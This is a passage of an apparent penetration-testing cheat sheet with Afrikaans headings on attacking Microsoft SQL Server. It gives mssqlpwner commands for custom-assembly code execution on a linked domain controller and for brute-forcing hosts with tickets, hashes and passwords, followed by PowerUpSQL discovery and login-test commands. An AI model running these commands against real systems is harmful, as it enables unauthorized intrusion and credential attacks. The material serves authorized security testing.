 ```shell
# Execute code using custom assembly on the linked server DC01

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll

# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt

```
### Opname vanaf die netwerk sonder domeinsessie
```

# Interactive mode

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth interactive

````
---
###  Powershell

Die powershell-module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is baie nuttig in hierdie geval.
```bash
Import-Module .\PowerupSQL.psd1
````
### Opname vanaf die netwerk sonder domeinsessie
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
### Opname van binne die domein
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
```